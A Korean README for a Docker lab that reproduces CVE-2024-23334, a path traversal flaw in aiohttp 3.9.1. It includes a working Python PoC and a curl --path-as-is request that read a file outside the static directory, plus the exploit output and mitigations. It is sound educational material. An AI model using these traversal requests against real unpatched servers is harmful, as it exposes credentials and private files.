



# CVE-2024-23334

## 1. 취약점 요약

CVE-2024-23334는 Python 비동기 웹 프레임워크인 `aiohttp`에서 발생하는 디렉터리 트래버설 취약점이다.

취약한 버전의 aiohttp 웹 서버에서 정적 파일 경로를 등록할 때 `follow_symlinks=True` 옵션을 사용하면, 요청한 파일이 지정된 정적 파일 루트 디렉터리 내부에 존재하는지 제대로 검증하지 않는다.

공격자는 `../`가 포함된 경로를 요청하여 정적 파일 디렉터리 외부의 파일을 읽을 수 있다.

본 실습에서는 `aiohttp==3.9.1`을 사용하여 취약한 웹 서버를 구성하고, `static` 디렉터리 외부에 위치한 `secret.txt` 파일을 읽는 과정을 재현한다.

---

## 2. CVE 기본 정보

| 항목 | 내용 |
|---|---|
| CVE ID | CVE-2024-23334 |
| 대상 프로그램 | aiohttp |
| 취약점 유형 | Directory Traversal / Path Traversal |
| CWE | CWE-22 |
| 취약 조건 | `follow_symlinks=True` 사용 |
| 실습 버전 | aiohttp 3.9.1 |
| 패치 버전 | aiohttp 3.9.2 |

---

## 3. 영향받는 버전과 패치 버전

영향받는 버전은 다음과 같다.

```text
aiohttp 1.0.5 초과
aiohttp 3.9.2 미만
```

본 실습에서는 다음 버전을 사용한다.

```text
aiohttp==3.9.1
```

해당 취약점은 aiohttp 3.9.2 이상 버전에서 수정되었다.

---

## 4. CVSS 및 CWE

### NIST NVD CVSS 평가

```text
CVSS Score: 7.5 HIGH
CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

NVD 평가에서는 공격자가 네트워크를 통해 인증 없이 취약점을 공격할 수 있으며, 공격 복잡도가 낮고 사용자 상호작용이 필요하지 않은 것으로 평가한다.

이 취약점은 서버 내부의 파일 내용을 읽는 데 사용될 수 있으므로 기밀성에 높은 영향을 줄 수 있다.

### GitHub CNA CVSS 평가

```text
CVSS Score: 5.9 MEDIUM
CVSS Vector: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:N
```

GitHub CNA는 공격 복잡도를 높음으로 평가하여 NVD보다 낮은 점수를 부여하였다.

### CWE

```text
CWE-22
Improper Limitation of a Pathname to a Restricted Directory
```

CWE-22는 외부에서 전달받은 경로가 허용된 디렉터리 내부에 있는지 적절하게 제한하거나 검증하지 않아 발생하는 취약점이다.

---

## 5. 취약점 발생 원인

aiohttp에서 정적 파일을 제공할 때 다음과 같이 경로를 등록할 수 있다.

```python
app.router.add_static(
    "/static/",
    path=STATIC_DIR,
    follow_symlinks=True,
)
```

`follow_symlinks=True` 옵션은 심볼릭 링크를 따라갈 수 있도록 허용하는 옵션이다.

하지만 취약한 버전의 aiohttp에서는 이 옵션을 활성화한 경우, 요청한 파일 경로가 실제로 지정된 정적 파일 루트 디렉터리 내부에 존재하는지 충분하게 검증하지 않았다.

정상 요청은 다음과 같다.

```text
/static/index.html
```

공격 요청은 다음과 같다.

```text
/static/../secret.txt
```

`../`는 상위 디렉터리로 이동한다는 의미이다. 컨테이너 내부에서는 다음과 같이 해석될 수 있다.

```text
/app/static/../secret.txt
```

경로가 정규화되면 실제 접근 대상은 다음과 같다.

```text
/app/secret.txt
```

결과적으로 공격자는 정적 파일 디렉터리 외부에 존재하는 파일을 읽을 수 있다.

---

## 6. 환경 구성

본 실습은 Docker Compose를 사용하여 구성한다.

| 항목 | 내용 |
|---|---|
| 운영 환경 | Docker |
| 기반 이미지 | `python:3.11-slim` |
| Python 버전 | Python 3.11.15 |
| aiohttp 버전 | 3.9.1 |
| 컨테이너 포트 | 8080 |
| 호스트 바인딩 | `127.0.0.1:8080` |
| 컨테이너 사용자 | 일반 사용자 UID/GID `10001:10001` |

최종 Compose 파일에서는 포트를 `127.0.0.1:8080`으로 바인딩하여 호스트 외부에서 직접 접근할 수 없도록 제한하였다.



---

## 7. 파일 구조

```text
Aiohttp/
└── CVE-2024-23334/
    ├── .dockerignore
    ├── Dockerfile
    ├── docker-compose.yml
    ├── requirements.txt
    ├── app.py
    ├── poc.py
    ├── secret.txt
    ├── README.md
    ├── static/
    │   └── index.html
    └── images/
        ├── environment.png
        ├── normal-request.png
        └── exploit-result.png
```

### 파일별 역할

| 파일 | 역할 |
|---|---|
| `.dockerignore` | 빌드 컨텍스트에서 문서, 이미지, 캐시 등 불필요한 파일을 제외한다. |
| `Dockerfile` | Python과 취약한 aiohttp 환경을 구성하고 일반 사용자로 실행한다. |
| `docker-compose.yml` | Docker 이미지 빌드, 로컬 포트 연결, healthcheck와 최소 권한 설정을 구성한다. |
| `requirements.txt` | 취약 버전인 `aiohttp==3.9.1`을 설치한다. |
| `app.py` | 취약한 aiohttp 웹 서버를 실행한다. |
| `poc.py` | 디렉터리 트래버설 취약점을 자동으로 재현하고 성공 여부를 판정한다. |
| `secret.txt` | 공격 성공 여부를 확인하기 위한 테스트 파일이다. |
| `static/index.html` | 정상적인 정적 파일 요청을 확인하기 위한 파일이다. |
| `images/` | 환경 실행 및 취약점 재현 결과 이미지를 저장한다. |

---

## 8. Docker 실행 방법

### 프로젝트 디렉터리로 이동

```bash
cd Aiohttp/CVE-2024-23334
```

현재 디렉터리에 `Dockerfile`과 `docker-compose.yml`이 존재해야 한다.

### 환경 빌드 및 실행

```bash
docker compose up --build -d
```

### 실행 상태 확인

```bash
docker compose ps
```

서버가 준비되면 컨테이너 상태가 `Up` 또는 `running`으로 표시되고, healthcheck가 완료된 환경에서는 `healthy`로 표시된다.

### 기본 페이지 확인

브라우저에서 다음 주소로 접속한다.

```text
http://127.0.0.1:8080
```

또는 다음 명령을 실행한다.

```bash
curl http://127.0.0.1:8080
```

예상 결과는 다음과 같다.

```text
CVE-2024-23334 vulnerable aiohttp server
```

---

## 9. 정상 요청 확인

정적 파일 디렉터리 내부에 존재하는 `index.html` 파일을 요청한다.

```text
http://127.0.0.1:8080/static/index.html
```

```bash
curl http://127.0.0.1:8080/static/index.html
```

정상적인 경우 `static/index.html` 파일의 HTML 내용이 반환된다.



---

## 10. 취약점 재현 절차

본 실습에서는 `static` 폴더 외부에 위치한 `secret.txt` 파일을 읽는다.

컨테이너 내부의 파일 위치는 다음과 같다.

```text
/app/static/index.html
/app/secret.txt
```

공격자는 다음과 같이 `../`가 포함된 경로를 요청한다.

```text
/static/../secret.txt
```

브라우저와 일부 HTTP 클라이언트는 `../` 경로를 서버에 보내기 전에 자동으로 정규화할 수 있다. 따라서 공격 검증에는 제공된 `poc.py` 또는 `curl --path-as-is` 명령을 사용한다.

---

## 11. PoC 코드 및 실행 방법

### Python PoC 실행

Linux 또는 macOS:

```bash
python3 poc.py
```

Windows:

```powershell
python poc.py
```

PoC는 Python 표준 라이브러리인 `http.client`를 사용하므로 별도의 외부 패키지를 설치하지 않아도 된다. 또한 컨테이너가 아직 준비되지 않은 경우 1초 간격으로 최대 10회 재시도한다.

### PoC 코드

```python
import sys
import time
from http.client import HTTPConnection, HTTPException


HOST = "127.0.0.1"
PORT = 8080
TARGET_PATH = "/static/../secret.txt"
EXPECTED_MARKER = "CVE-2024-23334-SECRET-FILE"
MAX_RETRIES = 10
RETRY_INTERVAL = 1


def request_target() -> tuple[int, str]:
    """Send the traversal path without normalizing '..' segments."""
    connection = HTTPConnection(HOST, PORT, timeout=5)

    try:
        connection.request("GET", TARGET_PATH)
        response = connection.getresponse()
        body = response.read().decode("utf-8", errors="replace")
        return response.status, body
    finally:
        connection.close()


def main() -> int:
    print(f"[+] Target: http://{HOST}:{PORT}")
    print(f"[+] Request path: {TARGET_PATH}")

    for attempt in range(1, MAX_RETRIES + 1):
        try:
            status, body = request_target()

            print(f"[+] Status code: {status}")
            print("[+] Response body:")
            print(body.rstrip())

            if status == 200 and EXPECTED_MARKER in body:
                print("[+] Vulnerability successfully reproduced.")
                return 0

            if status != 200:
                print(f"[-] Unexpected HTTP status: {status}")
            if EXPECTED_MARKER not in body:
                print("[-] The response did not contain the expected marker.")
            return 1

        except (OSError, HTTPException) as error:
            if attempt == MAX_RETRIES:
                print(
                    f"[-] Unable to connect after {MAX_RETRIES} attempts: "
                    f"{error}"
                )
                return 1

            print(
                f"[*] Server is not ready "
                f"({attempt}/{MAX_RETRIES}). Retrying in "
                f"{RETRY_INTERVAL} second(s)..."
            )
            time.sleep(RETRY_INTERVAL)

    return 1


if __name__ == "__main__":
    sys.exit(main())
```

### curl을 이용한 재현

```bash
curl --path-as-is http://127.0.0.1:8080/static/../secret.txt
```

`--path-as-is` 옵션은 curl이 요청 경로의 `../`를 자동으로 정규화하지 않고 서버에 그대로 전송하도록 한다.

---

## 12. 실행 결과

PoC를 실행하면 다음과 같은 결과가 출력된다.

```text
[+] Target: http://127.0.0.1:8080
[+] Request path: /static/../secret.txt
[+] Status code: 200
[+] Response body:
CVE-2024-23334-SECRET-FILE
[+] Vulnerability successfully reproduced.
```

서버가 HTTP 상태 코드 `200`을 반환하고, 정적 파일 디렉터리 외부에 위치한 `secret.txt` 파일의 내용을 출력한다. PoC는 상태 코드와 응답 마커를 모두 검사하며, 조건을 만족하면 종료 코드 `0`을 반환한다.

아래 스크린샷은 최종 PoC를 실행하여 취약점 재현에 성공한 결과이다.



---

## 13. 취약점 영향

공격자는 취약한 웹 서버에 조작된 경로를 요청하여 정적 파일 루트 디렉터리 외부의 파일을 읽을 수 있다.

노출될 수 있는 파일의 예시는 다음과 같다.

```text
환경설정 파일
API 키
데이터베이스 접속 정보
애플리케이션 소스 코드
인증 정보
비밀키
백업 파일
컨테이너 내부 시스템 파일
/etc/passwd
```

이 취약점은 파일을 직접 수정하거나 삭제하는 취약점은 아니지만, 중요 정보가 노출될 경우 추가 공격에 활용될 수 있다.

특히 컨테이너 이미지 내부에 민감한 설정 정보나 인증 정보가 포함되어 있다면 공격자가 해당 정보를 획득할 가능성이 있다.

---

## 14. 대응 방안

### 14.1 aiohttp 업데이트

aiohttp를 취약점이 수정된 `3.9.2` 이상 버전으로 업데이트한다.

```text
aiohttp>=3.9.2
```

가능하면 최신 안정 버전을 사용하는 것이 권장된다.

### 14.2 follow_symlinks 비활성화

정적 파일 경로 등록 시 `follow_symlinks=False`를 사용한다.

```python
app.router.add_static(
    "/static/",
    path=STATIC_DIR,
    follow_symlinks=False,
)
```

`follow_symlinks`의 기본값은 `False`이므로 특별한 이유가 없다면 활성화하지 않는다.

### 14.3 Reverse Proxy 사용

애플리케이션 서버에서 직접 정적 파일을 제공하지 않고, Nginx와 같은 Reverse Proxy 또는 별도의 정적 파일 서버를 사용하는 방안을 고려한다.

### 14.4 최소 권한 사용자 사용

최종 Dockerfile은 애플리케이션을 root가 아닌 UID/GID `10001:10001`로 실행한다. 이를 통해 취약점이 발생하더라도 프로세스가 접근할 수 있는 파일 범위를 줄인다.

### 14.5 필요한 파일만 이미지에 포함

Docker 이미지에는 애플리케이션 실행에 필요한 파일만 포함해야 한다. `.dockerignore`를 사용하여 README, 이미지, ZIP, 캐시 파일이 빌드 컨텍스트에 불필요하게 포함되지 않도록 한다.

### 14.6 컨테이너 권한 최소화

최종 Compose 파일은 다음 보안 설정을 적용한다.

```yaml
security_opt:
  - no-new-privileges:true
cap_drop:
  - ALL
```

또한 호스트 포트를 `127.0.0.1`에만 바인딩하여 로컬 실습 환경 외부에서 직접 접근하지 못하도록 제한한다.

---

## 15. 환경 종료 방법

```bash
docker compose down -v
```

환경을 다시 실행하려면 다음 명령을 사용한다.

```bash
docker compose up --build -d
```

---

## 16. 재현성 확인

제출 전에 다음 순서로 전체 환경을 다시 검증한다.

```bash
docker compose down -v
docker compose build --no-cache
docker compose up -d
docker compose ps
python3 poc.py
curl http://127.0.0.1:8080/
curl http://127.0.0.1:8080/static/index.html
curl --path-as-is http://127.0.0.1:8080/static/../secret.txt
docker compose down -v
```

Windows에서는 PoC 실행 시 다음 명령을 사용한다.

```powershell
python poc.py
```

PoC 실행 결과에 다음 두 문자열이 출력되면 취약점 재현에 성공한 것이다.

```text
CVE-2024-23334-SECRET-FILE
[+] Vulnerability successfully reproduced.
```

---

## 17. 참고 자료

- NVD CVE-2024-23334  
  https://nvd.nist.gov/vuln/detail/CVE-2024-23334

- GitHub Security Advisory GHSA-5h86-8mv2-jq9f  
  https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f

- aiohttp 공식 문서  
  https://docs.aiohttp.org/

- MITRE CWE-22  
  https://cwe.mitre.org/data/definitions/22.html

---

## 주의사항

본 실습 환경은 CVE-2024-23334 취약점의 학습과 재현을 목적으로 제작되었다.

반드시 본인이 소유하거나 명시적으로 허가받은 로컬 Docker 환경에서만 사용해야 한다.
